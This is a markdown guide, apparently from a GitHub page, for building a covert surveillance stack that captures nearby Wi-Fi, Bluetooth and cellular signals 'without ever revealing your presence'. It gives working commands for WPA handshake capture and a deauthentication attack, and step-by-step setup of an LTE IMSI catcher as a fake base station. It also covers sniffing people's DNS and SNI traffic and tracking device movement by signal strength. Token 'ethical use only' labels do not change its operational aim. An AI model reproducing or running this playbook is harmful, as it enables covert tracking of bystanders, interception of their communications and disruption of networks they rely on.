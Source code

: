 **💀 BUILDING: THE FULL INTELLIGENCE STACK 💀**
**PRESIDENTIAL CODEX vX.0 :: Tactical Passive SIGINT Architecture**
**Goal**: Observe, log, and classify every digital emission within your perimeter
— Wi-Fi, BLE, Cellular, RF — **without ever revealing your presence**.

---

## 🧱 OVERVIEW: STACK LAYOUT

| Layer                | Toolchain / Tech                                | Function                                         |
| -------------------- | ----------------------------------------------- | ------------------------------------------------ |
| Wi-Fi Intel          | `aircrack-ng`, `tshark`, `bettercap`, `hostapd` | Capture probes, handshakes, traffic, rogue APs   |
| Bluetooth Low Energy | `btmon`, `bluelog`, `bleah`, `blue_hydra`       | Log nearby BLE/BT devices, ID wearable or phones |
| Cellular Recon       | `srsRAN`, `Osmocom`, BladeRF/XTRX/USRP          | LTE/2G tower emulation (IMSI catching, tracking) |
| Device Fingerprint   | `p0f`, `nmap`, `airoscript`, MAC/OUI, DNS leaks | ID device OS/version from traffic                |
| Packet Harvesting    | `tshark`, `tcpdump`, `mitmproxy`, `sslstrip`    | Log packets, parse SNI, DNS, HTTP GETs           |
| Central Logging      | `Arkime`, `ELK stack`, `Grafana + InfluxDB`     | Store, search, and visualize everything          |
| Visual Interface     | `Kibana`, `Maltego`, `Gephi`, custom map GUI    | Real-time visualization of targets + metadata    |

---

## 🛠 SETUP: WI-FI RECON NODE

### 1. **Hardware**

* USB Wi-Fi adapters (ALFA AWUS036ACH or AX200)
* Raspberry Pi 5 or x86 mini-PC
* External SSD

### 2. **Enable Monitor Mode**

```bash
airmon-ng check kill
airmon-ng start wlan0
```

### 3. **Capture Probes**

```bash
airodump-ng wlan0mon --write probes --output-format pcap
```

### 4. **Capture Handshakes**

```bash
airodump-ng wlan0mon --bssid [BSSID] -c [CH] -w handshakes
```

### 5. **Deauth Attack (Ethical Use Only)**

```bash
aireplay-ng --deauth 5 -a [AP MAC] wlan0mon
```

---

## 📡 BLUETOOTH/BLE SURVEILLANCE

### 1. **Scan Nearby Devices**

```bash
btmon | tee btmon.log
hcitool lescan
blue_hydra
```

### 2. **Classify Devices**

Extract from:

* MAC OUI
* Manufacturer strings
* BLE Service UUIDs

---

## 📶 CELLULAR STACK (LTE IMSI Catcher)

> ⚠️ **Air-gapped, legal-only setup. Requires SDR and GNSS clock.**

### 1. **Hardware**

* BladeRF 2.0 micro / LimeSDR Mini / XTRX
* GPSDO (for frequency stability)
* High-gain LTE antennas

### 2. **srsRAN + fake eNodeB**

```bash
git clone https://github.com/srsran/srsRAN_project
cd srsRAN_project && ./build.sh
```

Configure `enb.conf`:

```ini
rf.device_name = "bladerf"
dl_earfcn = 6300  # 1800MHz band
```

Launch:

```bash
sudo srsenb enb.conf
```

IMSI hits will be dumped in:

```
/var/log/srsran/enb.log
```

---

## 🌐 PACKET MONITORING + TRAFFIC FINGERPRINTING

### 1. **Live Sniff**

```bash
sudo tshark -i wlan0mon -w live_capture.pcapng
```

### 2. **Extract SNI, DNS, MAC**

```bash
tshark -r live_capture.pcapng -Y "ssl.handshake.extensions_server_name || dns.qry.name"
```

---

## 🧠 DEVICE PROFILING + CORRELATION

### Use: MAC OUI Lookup

```bash
curl https://api.macvendors.com/[MAC]
```

### Use: Passive OS Detection

```bash
sudo p0f -i wlan0mon
```

---

## 📊 CENTRAL INTELLIGENCE STORAGE

### 1. **Install Arkime (Moloch)**

```bash
wget https://files.molo.ch/builds/arkime_3.4.1_amd64.deb
sudo dpkg -i arkime_*.deb
```

Configure:

* Index directory
* Elasticsearch setup

### 2. **Visualize**

Access Kibana at:

```
http://localhost:5601
```

---

## 🗺 BONUS: REAL-TIME TARGET MAPPING

Use `maltego` or build custom WebGL frontend that pulls:

* GeoIP from captured IPs
* Wi-Fi signal strength trilateration
* Bluetooth device movement via RSSI shift

---

## 🔐 MISSION PROTOCOL

* Always record raw PCAPs
* Hash metadata (SHA256) for later integrity proof
* Auto-redact known safe devices (whitelist MACs)
* Auto-flag:

  * new devices
  * repeated probe spam
  * rogue AP names
  * unknown BLE UUIDs
  * unknown LTE TMSIs or IMSIs

---

###
> **PRESIDENTIAL INTELLIGENCE STACK**
 ✅ COMPLETE

